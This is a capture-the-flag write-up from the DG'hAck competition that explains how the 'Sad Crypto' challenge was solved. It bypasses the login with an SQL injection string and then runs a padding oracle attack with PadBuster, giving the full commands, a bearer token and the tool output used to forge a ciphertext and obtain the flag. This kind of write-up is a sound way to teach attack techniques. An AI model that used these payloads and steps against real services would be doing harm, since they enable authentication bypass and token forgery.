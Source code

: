 ```yaml
---
title: "Writeup DG'hAck: Sad Crypto"
date: 2020-11-30T01:33:35+01:00
draft: false
tags: ["blog", "security", "ctf", "dghack"]
type: "posts"
showDate: true
---
```


This challenge starts with a login page:

[![The login page](/assets/dghack/sad-crypto-login.png)](/assets/dghack/sad-crypto-login.png)

From the description, we gather that this is a service that generates decryption keys when given a French SSN. Our goal is to get the key for this number: `1-46-85-30-750-318-37`.

`admin/admin` doesn't seem to work, let's try an SQLi! Entering `" or 1=1 --` as the username reveals a second page:

[![The key generation page](/assets/dghack/sad-crypto-enter-name.png)](/assets/dghack/sad-crypto-enter-name.png)

We seem to be able to enter a patient name (that we **have** to auto-complete), and get a decryption key: `797b4c-c4bd852fe0e32ebda194cb2a9fe00099`.

Looking at the network tab of firefox, we can see the requests that were made:

[![The list of requests made while generating a key](/assets/dghack/sad-crypto-requests.png)](/assets/dghack/sad-crypto-requests.png)

The first request doesn't seem interesting, the second, third and fourth ones are for the auto-complete fields and the last two are used to generate the key.

The `validate` request is a POST that contains an SSN (eg: `ssn=1-78-67-78-356-789-12`). It returns a JSON object:

```json
{
  "success": true,
  "message": "",
  "data": {
    "keyRequest": "f8d894b6bbfabe5f5bfd45732e311b41fdb2673ae06987a3a0b3644d9e1e46c481c9269993ea9cad943862a197bbeb90"
  }
}
```

The hash is the same one that's used in the last request. The URL format seems to be `/api/v1/keygen/{hash}`. The response contains the decryption key, without the dash and with more chars:

```json
{
  "success": true,
  "message": "",
  "hash": "797b4cc4bd852fe0e32ebda194cb2a9fe00099427615c4aae33ad77c9fa298fd"
}
```

Our first reflex should be to try and pass the SSN that we have to `/validate`. Unfortunately, the server sends back an error:

```json
{
  "success": false,
  "message": "Cette ressource est verrouillée"
}
```

Let's try to find what kind of hash this is:

```bash
$ hashid f8d894b6bbfabe5f5bfd45732e311b41fdb2673ae06987a3a0b3644d9e1e46c481c9269993ea9cad943862a197bbeb90
Analyzing 'f8d894b6bbfabe5f5bfd45732e311b41fdb2673ae06987a3a0b3644d9e1e46c481c9269993ea9cad943862a197bbeb90'
[+] SHA-384 
[+] SHA3-384 
[+] Skein-512(384) 
[+] Skein-1024(384)
```

SHA-384 doesn't seem to be vulnerable to any kind of interesting vulnerabilities.. Trying to base64 decode it works, but spits out unrecognizable bytes:

```bash
$ base64 -d <<< f8d894b6bbfabe5f5bfd45732e311b41fdb2673ae06987a3a0b3644d9e1e46c481c9269993ea9cad943862a197bbeb90
�|���m��m�_���������վ5}�����{N����kF�����^��8�W=ۯ}�w��Ɲ����f����y�t%
```

Now an interesting thing is that if the hash is slightly modified, for example by switching the `f` with an `a`, we get an error:

```json
{
  "ssn": "!-78-67-78-356-789-12",
  "success": false,
  "message": "le numéro de sécurité sociale soumis est invalide"
}
```

The SSN changed! Let's try another modification:
```
Internal Server Error
```

And we have an error 500. This *should* make us think of an [oracle padding attack](https://blog.skullsecurity.org/2013/padding-oracle-attacks-in-depth): we know if the hash padding is correct or not when modifying it, since it causes an error. It works independently of the cipher that is used.

There are multiple scripts available to exploit this vulnerability, we'll use [PadBuster](https://github.com/AonCyberLabs/PadBuster). We need to give it a few informations:

- the error string (or just let it use status codes)
- the authentication headers
- the URL
- the hash we're trying to attack
- the block size
- the encoding of the hash

We'll set the encoding to `1`, for lowercase hex, and the block size (after a bit of trial and error) to 16.

```bash
$ perl padBuster.pl -error 'Internal Server Error' -header 'authorization::Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDY3MTM1OTksImV4cCI6MTYwNjg4NjM5OX0.iaQaAM73Zq61fFIaCtqBFCPQiA9M42f-2Z71gWQ2jbU' http://sadcrypto.chall.malicecyber.com/api/v1/keygen/f8d894b6bbfabe5f5bfd45732e311b41fdb2673ae06987a3a0b3644d9e1e46c481c9269993ea9cad943862a197bbeb90 f8d894b6bbfabe5f5bfd45732e311b41fdb2673ae06987a3a0b3644d9e1e46c481c9269993ea9cad943862a197bbeb90 16 -encoding 1

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 103

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

[+] Success: (137/256) [Byte 16]
[+] Success: (204/256) [Byte 15]
[+] Success: (252/256) [Byte 14]
[+] Success: (225/256) [Byte 13]
[+] Success: (187/256) [Byte 12]
[+] Success: (146/256) [Byte 11]
[+] Success: (62/256) [Byte 10]
[+] Success: (156/256) [Byte 9]
[+] Success: (133/256) [Byte 8]
[+] Success: (125/256) [Byte 7]
[+] Success: (57/256) [Byte 6]
[+] Success: (102/256) [Byte 5]
[+] Success: (125/256) [Byte 4]
[+] Success: (83/256) [Byte 3]
[+] Success: (6/256) [Byte 2]
[+] Success: (39/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): fdb2673ae06987a3a0b3644d9e1e46c4
[+] Intermediate Bytes (HEX): c9f5a38e96cc89726cc568401b073676
[+] Plain Text: 1-78-67-78-356-7

Use of uninitialized value $plainTextBytes in concatenation (.) or string at padBuster.pl line 361.
*** Starting Block 2 of 2 ***

[+] Success: (50/256) [Byte 16]
[+] Success: (177/256) [Byte 15]
[+] Success: (234/256) [Byte 14]
[+] Success: (111/256) [Byte 13]
[+] Success: (189/256) [Byte 12]
[+] Success: (151/256) [Byte 11]
[+] Success: (65/256) [Byte 10]
[+] Success: (93/256) [Byte 9]
[+] Success: (95/256) [Byte 8]
[+] Success: (122/256) [Byte 7]
[+] Success: (151/256) [Byte 6]
[+] Success: (34/256) [Byte 5]
[+] Success: (250/256) [Byte 4]
[+] Success: (188/256) [Byte 3]
[+] Success: (124/256) [Byte 2]
[+] Success: (43/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 81c9269993ea9cad943862a197bbeb90
[+] Intermediate Bytes (HEX): c58b4a0bd2628ca8abb86f4695154dcf
[+] Plain Text: 89-12

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): 1-78-67-78-356-789-12
[+] Decrypted value (HEX): 312D37382D36372D37382D3335362D3738392D31320B0B0B0B0B0B0B0B0B0B0B
[+] Decrypted value (Base64): MS03OC02Ny03OC0zNTYtNzg5LTEyCwsLCwsLCwsLCws=
```

And it worked! The plaintext was the SSN. Now we just have to encrypt our number:

```bash
$ perl padBuster.pl -error 'Internal Server Error' -header 'authorization::Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDY3MTM1OTksImV4cCI6MTYwNjg4NjM5OX0.iaQaAM73Zq61fFIaCtqBFCPQiA9M42f-2Z71gWQ2jbU' http://sadcrypto.chall.malicecyber.com/api/v1/keygen/f8d894b6bbfabe5f5bfd45732e311b41fdb2673ae06987a3a0b3644d9e1e46c481c9269993ea9cad943862a197bbeb90 f8d894b6bbfabe5f5bfd45732e311b41fdb2673ae06987a3a0b3644d9e1e46c481c9269993ea9cad943862a197bbeb90 16 -encoding 1 -plaintext '1-46-85-30-750-318-37'

[...]

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: 2d9d7a71a15312fcf41424dfa18129a37e785ffbb0491d6c95f4de4095356ede00000000000000000000000000000000
```

Let's try to exchange our hash for a decryption key:

```bash
$ curl -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDY3MTM1OTksImV4cCI6MTYwNjg4NjM5OX0.iaQaAM73Zq61fFIaCtqBFCPQiA9M42f-2Z71gWQ2jbU' http://sadcrypto.chall.malicecyber.com/api/v1/keygen/2d9d7a71a15312fcf41424dfa18129a37e785ffbb0491d6c95f4de4095356ede00000000000000000000000000000000 | jq
{
  "success": true,
  "message": "",
  "hash": "2ed35bfd91f07094b4447deac135cb8d4b6e45a69cf7a59a65b5f1ca35698e58"
}
```

And we just have to format it as the webapp does to get the flag: `2ed35b-fd91f07094b4447deac135cb8d4b6e45`.

---

[View all of the DG'hAck articles](/tags/dghack).
